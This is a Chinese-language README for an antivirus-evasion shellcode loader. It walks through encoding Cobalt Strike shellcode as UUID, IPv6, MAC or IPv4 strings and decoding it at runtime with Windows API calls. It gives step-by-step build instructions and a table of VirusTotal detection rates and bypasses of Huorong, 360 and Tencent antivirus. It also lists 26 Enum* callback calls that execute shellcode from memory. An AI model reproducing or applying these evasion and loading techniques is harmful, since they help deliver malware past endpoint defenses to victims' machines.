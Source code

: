 # 免杀方式：回调函数



## 编译环境：

VS2022、Windows SDK 10.0、C++14



## 目录

| 版本号 | 写入内存方式                         | VT查杀率 | 时间       | 火绒 | 360  | 腾讯 | 代码 |
| ------ | ------------------------------------ | -------- | ---------- | ---- | ---- | ---- | ---- |
| 0.1    | uuid转化(UuidFromStringA)            | 4/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.2    | base64+uuid转化(UuidFromStringA)     | 2/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.3    | ipv6转化(RtlIpv6StringToAddressA)    | 2/68     | 2022-02-21 | √    | √    | √    | c++  |
| 0.4    | mac转化(RtlEthernetStringToAddressA) | 3/67     | 2022-02-21 | √    | √    | √    | c++  |
| 0.5    | ipv4转化(RtlIpv4StringToAddressA)    | 2/66     | 2022-03-07 | √    | √    | √    | c++  |



## 上手指南

 使用Cobalt Strike生成X64位的shellcode

![image-20220218181020741](../images/image-callback-1.png)

###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```

![image-20220218192747863](../images/image-callback-2.png)

将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。



### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```

![image-20220218193413454](../images/image-callback-3.png)

将转换好的base64，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。



### 版本0.3

先将shellcode转化为ipv6格式，客户端读取ipv6之后调用RtlIpv6StringToAddressA恢复成shellcode再通过回调函数加载至内存

将shellcode替换至./v0.3/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv6)

```python
python3 ./v0.3/trans.py
```

![111](../images/image-callback-5.png)

将转换好的ipv6，替换至./v0.3/main.cpp中的ipv6数组中

编译运行即可。



### 版本0.4

将shellcode替换至./v0.4/trans.py中的buf变量，并执行该脚本。(shellcode -> mac)

```python
python3 ./v0.4/trans.py
```

将转换好的mac，替换至./v0.4/main.cpp中的mac_数组中

编译运行即可。



### 版本0.5

将shellcode替换至./v0.5/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv4)

```python
python3 ./v0.5/trans.py
```

将转换好的ipv4，替换至./v0.5/main.cpp中的ipv4数组中

编译运行即可。





## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)



## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成shellcode，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。

![cucv50oqin](../images/image-callback-4.png)

WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

### 可利用的回调函数

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);

EnumTimeFormatsW((TIMEFMT_ENUMPROCW)ha, NULL, NULL);
EnumUILanguagesW((UILANGUAGE_ENUMPROCW)ha, NULL, NULL);
EnumTimeFormatsEx((TIMEFMT_ENUMPROCEX)ha, NULL, NULL, NULL);
EnumSystemLocalesW((LOCALE_ENUMPROCW)ha, NULL);
EnumSystemLocalesEx((LOCALE_ENUMPROCEX)ha, NULL, NULL, NULL);
EnumSystemLanguageGroupsW((LANGUAGEGROUP_ENUMPROCW)ha, NULL, NULL);
EnumSystemGeoNames(NULL, (GEO_ENUMNAMEPROC)ha, NULL);
EnumLanguageGroupLocalesW((LANGGROUPLOCALE_ENUMPROCW)ha, LGRPID_ARABIC, 0, NULL);
EnumLanguageGroupLocalesA((LANGGROUPLOCALE_ENUMPROCA)ha, LGRPID_ARABIC, 0, NULL);
EnumDateFormatsW((DATEFMT_ENUMPROCW)ha, NULL, NULL);
EnumDateFormatsExW((DATEFMT_ENUMPROCEXW)ha, NULL, NULL);
EnumDateFormatsExEx((DATEFMT_ENUMPROCEXEX)ha, NULL, NULL, NULL);
EnumDateFormatsExA((DATEFMT_ENUMPROCEXA)ha, NULL, NULL);
```



IPV6同uuid的原理，先将恶意payload转化成ipv6格式，再通过windows系统库函数去解析成shellcode，再去加载至内存，达到免杀效果。





## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows
